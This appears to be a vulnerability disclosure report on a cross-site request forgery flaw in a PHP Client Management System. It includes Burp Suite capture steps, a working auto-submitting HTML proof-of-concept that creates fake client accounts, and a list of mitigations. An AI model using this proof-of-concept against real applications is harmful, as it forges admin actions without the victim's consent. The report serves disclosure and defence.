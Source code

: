 # CSRF Vulnerability: Creating Fake Users in Client Management System

## Introduction
Cross-Site Request Forgery (CSRF) is an attack where an authenticated user is tricked into submitting a malicious request to a web application. This can lead to unauthorized actions being performed on behalf of the user . In this report, we demonstrate how CSRF can be used to create fake users in a **Client Management System** and suggest mitigation strategies.

## Environment Setup
- Locally hosted **Client Management System** using **MySQL** and **PHP**.
- Functionality for adding clients and their services.

## Steps to Exploit CSRF

### 1. Login as Admin
Using provided credentials, log in to the Client Management System.

![Login as admin](https://github.com/user-attachments/assets/a52b86de-a945-424a-89fc-ef538af11ac0)

### 2. Add a New Client
- Select **Add Client** option.
- Enter the required client details.

![Adding new client](https://github.com/user-attachments/assets/f4589658-3bc8-485b-beec-f58280c63c91)
![Enter the client details](https://github.com/user-attachments/assets/a0a89e2d-743a-4bf0-887d-24ed8c9629d5)

### 3. Capture the Client Adding Request
1. Navigate to the **Save** button.
2. Set up **Burp Suite** to intercept requests
3. Click **Save** and capture the HTTP request before it reaches the server
4. Send the captured request to the **Repeater** tab without the session cookie for analysis

![Capturing the request in Burp](https://github.com/user-attachments/assets/2c3978f6-8518-4ca1-89c3-cc7a22a7cebe)
![Send to repeater](https://github.com/user-attachments/assets/be30ff6c-4dc5-4f18-af61-11bd81c526d1)

## CSRF Code for
Below is the **HTML PoC** for CSRF attack:

```html
<html>
  <body>
    <form action="http://localhost/clientms/admin/add-client.php" method="POST">
      <input type="hidden" name="accounttype" value="Active Account" />
      <input type="hidden" name="cname" value="moulimurugan" />
      <input type="hidden" name="comname" value="kppr" />
      <input type="hidden" name="address" value="vijayamangalam" />
      <input type="hidden" name="city" value="erode" />
      <input type="hidden" name="state" value="tamil" />
      <input type="hidden" name="zcode" value="638026" />
      <input type="hidden" name="wphnumber" value="968560710" />
      <input type="hidden" name="cellphnumber" value="6931052465" />
      <input type="hidden" name="ophnumber" value="9638560410" />
      <input type="hidden" name="email" value="moulimurugan@gmail.com" />
      <input type="hidden" name="password" value="moulimurugan" />
      <input type="hidden" name="websiteadd" value="clientmsdb" />
      <input type="hidden" name="notes" value="Nil" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Creating Fake Users
- Modify existing details to create **fake users**

![Adding fake user 1](https://github.com/user-attachments/assets/4b45fb41-3c40-4a6b-9dcf-525fc02eceaa)
![Adding fake user 2](https://github.com/user-attachments/assets/feb6cc10-f6b7-4276-ba5f-41e026f3fba2)

### Testing the CSRF PoC
1. Open the generated **CSRF PoC link** in a browser.
2. The webpage opens with a **Submit** button.
3. Click **Submit**, and the request executes, creating fake users.

![Open PoC in browser](https://github.com/user-attachments/assets/68b10332-3cc8-4d9c-8ccf-46af830ad9ba)
![Hit submit request](https://github.com/user-attachments/assets/59d29d18-7911-4f2b-b115-38946be339f8)

## Confirming Fake Clients Creation
- After submission, fake clients appear in the admin dashboard.

![Fake clients created](https://github.com/user-attachments/assets/ce96ec9b-4f7d-470c-89ed-a63bb79a341f)
![Multiple users created](https://github.com/user-attachments/assets/878be82c-87de-4201-aa4f-c08ed785fc20)

## Mitigation Strategies
To prevent CSRF attacks, implement the following measures:

1. **CSRF Tokens**
   - Use **anti-CSRF tokens** in all form submissions and verify them on the server-side.
2. **SameSite Cookies**
   - Set session cookies with `SameSite=Strict` or `SameSite=Lax` attributes.
3. **Referer and Origin Header Validation**
   - Validate the **Referer** and **Origin** headers before processing requests .
4. **User Authentication Checks**
   - Require **CAPTCHAs** for critical actions to prevent automated attacks .
5. **Restrict HTTP Methods**
   - Use `POST` for sensitive actions and **avoid processing GET requests** with side effects .

## Conclusion
This report demonstrates how CSRF vulnerabilities can be exploited to create unauthorized accounts in a **Client Management System**. Implementing the suggested mitigation strategies will help secure the application against such attacks.
